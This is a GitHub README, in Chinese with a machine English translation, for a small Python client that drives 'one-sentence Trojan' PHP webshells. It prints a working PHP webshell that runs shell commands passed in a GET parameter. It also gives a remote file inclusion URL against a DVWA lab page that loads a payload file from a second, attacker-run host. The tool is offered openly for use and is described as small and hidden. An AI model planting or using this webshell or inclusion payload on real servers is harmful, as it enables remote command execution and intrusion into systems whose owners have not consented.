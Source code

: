 # WebShell v1.0

> If you like it, please give me a Star
> 
> 如果你喜欢它 , 请给我一个Star
> 
> **不喜自喷**

适用于**一句话木马**等一系列webshell

- 支持GET请求的一句话木马
- 小巧隐蔽
- (编不下去了

木马格式 : 

1 . PHP

```php
<? @echo(shell_exec($_GET['CMD']))
```

2 . 文件包含

```
http://192.168.1.150/DVWA/vulnerabilities/fi/?page=http://192.168.1.127:8000/http://192.168.1.150/DVWA/vulnerabilities/fi/?page=http://192.168.1.127:8000/include.php
# include.php同上
```

使用方法:

在终端使用python命令运行

**需要安装requests类库**

![1.png](https://i.loli.net/2021/01/31/38qQGkAKhzTugOC.png)
![2.png](https://i.loli.net/2021/01/31/51yG2aDutoVlnCO.png)

<u>缺点 : 没有办法输入交互</u>

In the end,enjoy it!

(2021 1 31 我的第一个github项目

## English Document

> <u>**Machine translation follows**</u>

Applicable to a series of webshells such as **a Trojan sentence**

- A one-sentence Trojan that supports GET requests
- Small hidden
  
  <br/>

Trojan Format :

1 . PHP

```php
<? @echo(shell_exec($_GET['CMD']))
```

2 . File Inclusion

```
http://192.168.1.150/DVWA/vulnerabilities/fi/?page=http://192.168.1.127:8000/http://192.168.1.150/DVWA/vulnerabilities/fi/?page=http://192.168.1.127:8000/include.php
# 'include.php' Same as above
```

Usage:

Run it from the terminal using 'python' commands

** Requires installing the 'Requests' class library **

<br/>

![1.png](https://i.loli.net/2021/01/31/38qQGkAKhzTugOC.png)
![2.png](https://i.loli.net/2021/01/31/51yG2aDutoVlnCO.png)

<u>Cons: No way to enter interaction</u>

In the end,enjoy it!

*(2021 1 31 My first GitHub project*
